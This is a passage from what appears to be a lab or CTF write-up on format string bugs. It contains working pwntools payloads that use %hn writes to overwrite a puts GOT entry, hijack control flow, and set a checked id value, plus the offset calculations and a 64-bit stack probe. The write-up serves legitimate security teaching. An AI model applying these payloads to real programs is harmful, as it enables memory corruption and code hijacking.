 which means the value of got of tar_func is `0x09049206`. Construct the payload to overwrite the value of `puts`:

`p32(puts_got + 2) + b'@@@@' + p32(puts_got) + b'%.8x' * 5 + b'%.2000x%hn' + b'%.35330x%hn' + b'\0'`(since 0x04, 0x08, 0x06 are all small number, it's impossible to use "%hhn"), here are some calculation process:

```
0x804(0d2052) - 12 - 40 = 2000
0x9206 - 0x804 = 35330
```

With this payload, a "Try harder" hint is gotten. Therefore the control is hijacked.

<img src="assets/image-20210428174524368.png" style="zoom:50%;" />

### Modify value

Find the compare instruction in the `target_function_3180103012`:

```assembly
00001f99 <target_function_3180103012>:
    ......
    1fb2:	81 fa 64 85 8c bd    	cmp    $0xbd8c8564,%edx
    1fb8:	75 1f                	jne    1fd9 <target_function_3180103012+0x40>
```

Here the desired value of `id` is 0xbd8c8564 of course.

Here are 4 value to overflow: 0x804, 0x9206, 0xbd8c, 0x8564, we re-order them in increasing order for convenience of FSB attack. Here are the process:

```
0x804(0d2052) - 28 - 40 = 1984
0x8564 - 0x804  = 32096
0x9206 - 0x8564 = 3234
0xbd8c - 0x9206 = 11142
```

Then we get the payload: `p32(puts_got + 2) + b'@@@@' + p32(id_addr) + b'@@@@' + p32(puts_got) + b'@@@@' + p32(id_addr + 2) + b'%.8x' * 5 + b'%.1984x%hn' + b'%.32096x%hn' + b'%.3234x%hn' + b'%.11142x%hn' + b'\0'` and finally successfully attack.

<img src="assets/image-20210428014200121.png" style="zoom:50%;" />

## 02_fmt64

### Hijack control flow

Still try to get the location of input string:

```python
p.send('AAAAAAAA' + '.%lx' * 8 + '.\0')

[DEBUG] Received 0x64 bytes:
    b'AAAAAAAA.7ffc8546f960.100.7fe3de454151.22.0.4141414141414141.786c252e786c252e.786c252e786c252e.done\n'
```

